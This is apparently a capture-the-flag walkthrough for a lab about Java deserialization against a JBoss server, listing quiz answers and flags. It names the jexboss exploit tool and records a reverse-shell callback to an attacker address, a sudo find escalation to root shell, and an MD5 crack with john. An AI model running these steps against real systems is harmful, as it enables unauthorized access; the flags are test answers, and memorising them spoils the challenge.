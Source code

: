 # TONY THE TIGER

## BASIC INFO
```
export IP=10.10.89.216
```


## SUPPORT MATERIAL
> - **What is a great IRL example of an "Object"?**
>> lamp

> - **What is the acronym of a possible type of attack resulting from a "serialisation" attack?**
>> DoS

> - **What lower-level format does data within "Objects" get converted into?**
>> byte streams


## RECONNAISSANCE

> - **What service is running on port "8080"**
>> Apache Tomcat/Coyote JSP engine 1.1

> - **What is the name of the front-end application running on "8080"?**
>> JBoss

## FIND TONY'S FLAG

> - **This flag will have the formatting of "THM{}"**
>> THM{Tony_Sure_Loves_Frosted_Flakes}

On one of the post there's an image. Running strings on it reveals the flag.


## EXPLOIT
Instead of using the one the creator provided, I used the one I found [github](https://github.com/joaomatosf/jexboss). Following the instruction we manage to get a shell. But this shell is quite restricted. So we set up a listener on our local machine, then run `jexremote=10.11.7.208:9001` to get a reverse shell.


## FIND USER JBOSS'S FLAG

> - **This flag has the formatting of "THM{}"**
>> THM{50c10ad46b5793704601ecdad865eb06}

Once we get a reverse shell, we saw a to-do.txt on our home directory. It mentioned something about writing a notes to JBoss. Let's try to checkout JBoss home directory. so there's a note inside with JBoss's password. Switch user to JBoss and we saw a `.jboss.txt`. That's the flag.

## ESCALATION!

> - **The final flag does not have the formatting of "THM{}"**
>> zxcvbnm123456789

To escalate, try running `sudo -l`. Seems like we can run find as sudo without password. `find . -exec /bin/bash \; -quit` and we're root. Cat out root.txt and it seems like a base64 encoded string. After decoding it it seems like a hash? Using `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5` we manage to crack it.
